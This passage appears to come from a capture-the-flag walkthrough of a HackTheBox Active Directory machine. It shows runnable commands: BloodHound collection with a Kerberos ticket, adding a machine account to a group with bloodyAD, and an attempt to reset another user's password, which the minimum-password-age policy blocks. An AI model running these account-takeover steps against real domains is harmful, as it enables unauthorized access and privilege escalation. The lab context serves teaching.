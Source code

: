### Bloodhound

As an owner of the group, I’ll re-run Bloodhound. I wasn’t able to get Rusthound to work, so I’ll fall back to Python:

```

oxdf@hacky$ KRB5CCNAME=Haze-IT-Backup\$.ccache bloodhound-ce-python -d haze.htb -u 'Haze-IT-Backup$' -k 
-no-pass -c all -ns 10.10.11.61 --zip
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: haze.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc01.haze.htb  
INFO: Found 1 domains
INFO: Found 1 domains in the forest                 
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.haze.htb
INFO: Found 9 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 2 ous                                                  
INFO: Found 20 containers                                          
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.haze.htb
INFO: Done in 00M 17S                                              
INFO: Compressing output into 20250625013024_bloodhound.zip     

```

In this new collection, Support\_Services has some control over edward.martin:

![image-20250624133227572](/img/image-20250624133227572.png)

### Shadow Credentials

#### Set Password Fail

I typically go for a Shadow Credential here over changing the password as it’s just cleaner OPSEC. That said, if I try to change the password here, it fails. I’ll add Haze-IT-Backup$ to the group, and then try to set the password:

```

oxdf@hacky$ KRB5CCNAME=Haze-IT-Backup\$.ccache bloodyAD --host dc01.haze.htb -d haze.htb -u 'Haze-IT-Backup$' -k add groupMember Support_Services 'Haze-IT-Backup$'
[+] Haze-IT-Backup$ added to Support_Services
oxdf@hacky$ KRB5CCNAME=Haze-IT-Backup\$.ccache bloodyAD --host dc01.haze.htb -d haze.htb -u 'Haze-IT-Backup$' -k set password edward.martin '0xdf0xdf!!!'
Traceback (most recent call last):
...[snip]...
msldap.commons.exceptions.LDAPModifyException: 
Password can't be changed before -2 days, 2:59:25.821606 because of the minimum password age policy.

```
